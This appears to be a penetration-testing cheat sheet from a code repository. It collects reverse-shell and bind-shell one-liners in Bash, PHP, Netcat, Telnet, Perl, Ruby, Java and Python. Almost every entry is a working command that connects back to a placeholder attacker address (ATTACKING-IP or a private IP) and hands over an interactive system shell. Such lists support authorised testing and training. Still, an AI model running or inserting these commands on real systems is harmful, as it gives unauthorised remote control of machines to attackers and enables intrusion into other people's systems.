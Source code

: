 # Reverse-shells



This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:
https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Msfvenom

There is more info on this topic in the metasploit chapter in /exploiting. But here goes


## Bash

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```
exec /bin/bash 0&0 2>&0
```

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Php
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat
If there is a firewall running on the target-machine you will not be able to bind a shell to it. But a reverse shell will work.

Bind shell
```
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555
```

Reverse shell
```
nc 192.168.1.101 5555 -e /bin/bash
nc -lvp 5555
```

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```


## Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
